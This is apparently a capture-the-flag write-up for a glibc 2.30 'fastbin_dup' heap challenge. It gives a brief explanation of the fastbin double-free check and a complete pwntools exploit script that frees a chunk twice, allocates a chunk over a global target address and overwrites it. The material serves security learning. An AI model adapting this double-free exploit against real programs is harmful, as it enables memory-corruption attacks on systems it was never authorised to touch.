

the challenge allow us to malloc (fastbin) and free multiple times


with glibc 2.30 and we can free a chunk twice, as the only check against freeing twice a fastbin in this version is checking if the current victim is the same as the last victim chunk 


by freeing a chunk twice, we can essentially make a chunk at our target,  which is below our username, which mean that we can use our username as the chunksize

```
#!/usr/bin/env python3

from pwn import *

exe = ELF("fastbin_dup")

context.binary = exe
context.log_level="debug"

script='''
    b main
    c
'''

def main():
    # r = gdb.debug(exe.path, gdbscript=script)
    r = process(exe.path)

    target=0x602020

    payload=flat(0x51)
    r.recvuntil("Enter your username: ")
    r.send(payload)

    r.recvuntil("> ")
    r.sendline(str(1).encode())

    r.recvuntil("size: ")
    r.sendline(str(67).encode())

    r.recvuntil("data: ")
    r.sendline(str(67).encode())

    r.recvuntil("> ")
    r.sendline(str(1).encode())

    r.recvuntil("size: ")
    r.sendline(str(67).encode())

    r.recvuntil("data: ")
    r.sendline(str(67).encode())


    r.recvuntil("> ")
    r.sendline(str(2).encode())

    r.recvuntil("index: ")
    r.sendline(str(0).encode())

    r.recvuntil("> ")
    r.sendline(str(2).encode())

    r.recvuntil("index: ")
    r.sendline(str(1).encode())

    r.recvuntil("> ")
    r.sendline(str(2).encode())

    r.recvuntil("index: ")
    r.sendline(str(0).encode())


    r.recvuntil("> ")
    r.sendline(str(1).encode())

    r.recvuntil("size: ")
    r.sendline(str(67).encode())

    payload=flat(
        target-0x18
    )

    r.recvuntil("data: ")
    r.send(payload)

    r.recvuntil("> ")
    r.sendline(str(1).encode())

    r.recvuntil("size: ")
    r.sendline(str(67).encode())

    r.recvuntil("data: ")
    r.sendline(str(67).encode())

    r.recvuntil("> ")
    r.sendline(str(1).encode())

    r.recvuntil("size: ")
    r.sendline(str(67).encode())

    r.recvuntil("data: ")
    r.sendline(str(67).encode())

    r.recvuntil("> ")
    r.sendline(str(1).encode())

    r.recvuntil("size: ")
    r.sendline(str(67).encode())

    payload=flat(
        0,
        "PWNED",
        0
    )

    r.recvuntil("data: ")
    r.send(payload)


    r.recvuntil("> ")
    r.sendline(str(3).encode())


    r.interactive()


if __name__ == "__main__":
    main()

```